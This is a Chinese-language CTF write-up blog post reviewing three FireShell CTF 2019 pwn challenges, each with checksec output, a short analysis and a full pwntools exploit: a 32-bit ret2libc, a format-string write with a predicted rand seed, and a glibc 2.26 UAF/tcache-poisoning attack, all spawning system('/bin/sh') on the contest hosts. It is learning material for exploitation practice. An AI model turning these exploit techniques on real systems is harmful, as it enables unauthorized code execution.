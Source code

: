 ```yaml
---
title: FireShellCTF2019反思
author: nepire
avatar: /images/title.ico
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 12:26:45
tags:
keywords:
description:
photos:
---
```

实在是不应该，赛后看了下Pwn最后一题的EXP反省了下，要是能专注去分析还是能搓出来的，结果到后面也只做出来了常规的三题，不是一个很好的阶段结束，写完这篇总结就去肝19WF的参展品了，比赛估计也要停一段时间打不了。






### leakless
```bash
➜  leakless checksec leakless
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/leakless/leakless'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
很基础的32位ret2libc
构造ROP来puts出puts_addr，题目没给libc，但[libc-search](https://libc.blukat.me/)搜得到libc,通过puts_sym来计算出libc_base，然后再计算出system和`/bin/sh`的地址,最后构造ROP链执行`system('/bin/sh')`getshell

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='i386',log_level='debug')
# n = process('./leakless')
n = remote('35.243.188.20',2002)
elf = ELF('./leakless')
libc = ELF('./libc.so')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_ret = 0x080483ad
feedme = 0x080485cb

payload = 'a'*0x48+'aaaa'+p32(puts_plt)+p32(pop_ret)+p32(puts_got)+p32(feedme)
# n.recv()
n.sendline(payload)

libc_base = u32(n.recv(4))-libc.sym['puts']
print "libc_base:",hex(libc_base)

payload = 'a'*0x4c + p32(libc_base + libc.sym['system'])+'aaaa'+p32(libc_base+libc.search('/bin/sh').next())
n.sendline(payload)

n.interactive()
```
#### FLAG
`F#{y3ah!!_y0u_d1d_1t!_C0ngr4tz}`

### casino
```bash
➜  casino checksec casino
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/casino/casino'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
开始输入name的时候有一个`0x10`byte的格式化字符串，然后接着是100次伪随机数的判定，一开始没细看直接搓了100次判定成功的payload，发现拿不到flag，后来仔细看了下要求是`成功的次数大于100次`，正常来说是不可能的，但它判定成功后`累加的是一个全局变量bet`而不是`count++`或`count+=1`，也就是说，我们如果把bet改成大于1的值就可以让最终判断成功次数时大于100,而前面的16byte格式化字符串就足够用来修改任意地址的1byte，虽然因为`8byte补齐`和`\x00截断`的问题坑了好久，但最后还是搓出来一个还行的payload

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
# n = process('./casino')
n = remote('35.243.188.20',2001)
elf = ELF('./casino')
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

bet = 0x03
fmt_offset = 10
seed = libc.time(0)/0xa
print "seed:",hex(seed)
seed += bet
libc.srand(seed)
idx = 1
n.recvuntil('?')
payload = 'aaa%11$n'+p32(0x602020).ljust(8,'\x00')
n.sendline(payload)

for i in range(0,99):
    # n.recvuntil('number: ')
    num = libc.rand()
    sleep(0.08)
    n.sendline(str(num))
    s = "<%03d/100>"%idx
    log.success(s)
    idx += 1

n.interactive()
```
#### FLAG
`F#{buggy_c4s1n0_1s_n0t_f41r!}`

### babyheap
```bash
➜  babyheap checksec babyheap
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
本来想说坑，可想想是自己没有先check一下libc版本的锅，只能说自己还不够成熟了（无奈）
```bash
➜  babyheap strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.26-0ubuntu2.1) stable release version 2.26, by Roland McGrath et al.
Compiled by GNU CC version 6.4.0 20171010.
	GNU Libidn by Simon Josefsson
```
libc版本是2.26，环境切到2.26下开始分析，很快就能就发现可能存在`UAF&double free`，还有一个choice为1337功能大致是malloc(0x60)然后写0x40byte的函数，我们可以想到用UAF劫持程序在一个可写的地方(!! bss段开始的地方有stdin和stdout不能覆盖，要加个偏移)malloc一个块然后通过`1337`函数来伪造bk指针为atoi_got来泄漏出libc，再通过`tcache_poisoning`把atoi_got改成system_addr后回到有用atoi的地方输入`/bin/sh`就能得到shell了。
#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
# n = process('./babyheap')
n = remote("51.68.189.144", 31005)
elf = ELF('./babyheap')
libc = ELF('./libc.so.6') #2.26


def choice(idx):
    n.recvuntil('> ')
    n.sendline(str(idx))

def new():
    choice(1)

def edit(content):
    choice(2)
    n.recvuntil('Content? ')
    n.sendline(content)

def show():
    choice(3)

def free():
    choice(4)

def readn(content):
    choice(1337)
    n.recvuntil('Fill ')
    n.send(content)


bss = elf.bss()+0x20
log.success(hex(bss))
atoi_got = elf.got['atoi']
log.success(hex(atoi_got))

new()
free()
edit(p64(bss))
new()
# gdb.attach(n)
payload = p64(0)*5 + p64(atoi_got)
readn(payload)
show()
n.recvuntil('Content: ')
libc_base = u64(n.recv(6)+'\x00\x00')-libc.sym['atoi']
print "libc_base:",hex(libc_base)
system_addr = libc_base + libc.sym['system']
edit(p64(system_addr)) #atoi_got -> system_addr
choice('/bin/sh\x00')

n.interactive()
```
#### FLAG
`F#{W3lc0m3_t0_h34p_Expl01t4t10n!}`
